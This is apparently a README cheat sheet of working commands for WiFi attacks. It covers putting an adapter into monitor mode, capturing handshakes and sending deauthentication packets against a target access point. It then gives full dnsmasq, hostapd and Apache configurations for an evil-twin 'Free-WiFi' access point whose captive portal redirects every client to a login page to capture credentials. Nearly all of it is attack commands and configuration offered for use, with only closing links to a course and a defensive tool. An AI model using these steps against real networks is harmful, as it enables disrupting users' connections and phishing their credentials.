 # HacKingWiFi
## HacKingWiFi 
### Algorithm Commands to HacKing WiFi 

# [1] Choosing Wireless Adapter / Get Interface:
  - [1.1] Cheking for Wireless Network interface: `iwconfig`  
  - [1.2] Cheking for Wireless Network interface: `ifconfig`

---

# [2] Start Monitoring Mode & Checking Injection Option 
  - [2.1] Starting Monitor mode: `airmon-ng start $INTERFACE`
  - [2.2] Monitoring: `aireplay-ng --test $INTERFACE`

---
  
# [3] Scan Wireless’s Area
  - [3.1] Sniff Networks Area Information : `airodump-ng $INTERFACE`
  - [3.2] Start Capturing Packets: `airodump-ng --bssid $BSSID -c $CHANNEL_NUMBER -w $OUTPUT_NAME $INTERFACE`
  - [3.3] Inject Packets into Wireless Network: `aireplay-ng --deauth 10 -a $MAC_TARGET $INTERFACE`

---

# [4] Analysis Captured Files With WireShark:
  - [4.1] Start WireShark: `wireshark $OUTPUT_NAME.cap`
    - Looking for Authentication Files

---

# [5] Set Up Access point:
  - [5.1] Create dnsmasq Configuration files: `nano dnsmasq.conf`
```SHELL
#Set the wireless interface
interface=wlan0

#Set the IP range for the clients
dhcp-range=192.168.1.2,192.168.1.250,12h

#Set the gateway IP address
dhcp-option=3,192.168.1.1

#Set DNS server address
dhcp-option=6,192.168.1.1

#Redirect all requests to 192.168.1.1
address=/#/192.168.1.1
```
  - [5.2] Create hostpad Configuration file: `nano hostapd.conf` 
```SHELL
#Set wireless interface
interface=wlan0

#Set network name
ssid=Free-WiFi

#Set channel
channel=11

#Set driver
driver=nl80211
```
  - [5.3] Run Commands 1: `dnsmasq -C /directory_to_dnsmasq.conf`
  - [5.4] Run Commands 2: `hostapd /directory_to_hostapd.conf -B`
  - [5.5] `airbase-ng -e $WIRELESS_NETWORK -c $CHANNEL $INTERFACE` 

---

# [6] Setting up Captive Portal
  - [6.1] Download and Move Portal files to `/var/www/html`
  - [6.2] Edit `nano /etc/apache2/sites-enabled/000-default.conf` & Add to end of it:
```shell

<Directory "/var/www/html">
RewriteEngine On
RewriteBase /
RewriteCond %{HTTP_HOST} ^www\.(.*)$ [NC]
RewriteRule ^(.*)$ http://%1/$1 [R=301,L]

RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule ^(.*)$ / [L,QSA]
</Directory>

```
  - [6.3] Start Apache2 Server: `sudo service apache2 start`
  - [6.4] Connect to `Free-WiFi`, and that will been automatically redirected to the logging page.
 
 ---
 
 - [WiFi Hacking using Evil Twin Attacks and Captive Portals](https://github.com/Anlominus/Studies/tree/main/Udemy/IT%20%26%20Software/Network%20%26%20Security/Security%20HacKing/WiFi%20Hacking%20using%20Evil%20Twin%20Attacks%20and%20Captive%20Portals)
- [EvilAP_Defender](https://github.com/moha99sa/EvilAP_Defender)
